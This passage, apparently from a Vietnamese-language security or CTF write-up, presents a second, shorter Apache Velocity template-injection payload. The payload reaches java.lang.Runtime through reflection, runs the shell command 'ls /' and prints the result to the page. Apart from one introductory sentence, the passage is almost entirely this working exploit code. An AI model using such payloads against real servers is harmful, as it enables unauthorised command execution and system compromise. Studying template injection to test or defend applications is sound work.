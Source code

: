 Tiếp theo là 1 payload ngắn hơn payload đầu tiên và có thể output ra màn hình
```java=
#set($x='')
#set($rt=$x.class.forName('java.lang.Runtime'))
#set($chr=$x.class.forName('java.lang.Character'))
#set($str=$x.class.forName('java.lang.String'))
#set($ex=$rt.getRuntime().exec('ls /'))
$ex.waitFor()
#set($out=$ex.getInputStream())
#forEach($i in [1..$out.available()])$str.valueOf($chr.toChars($out.read()))
#end
```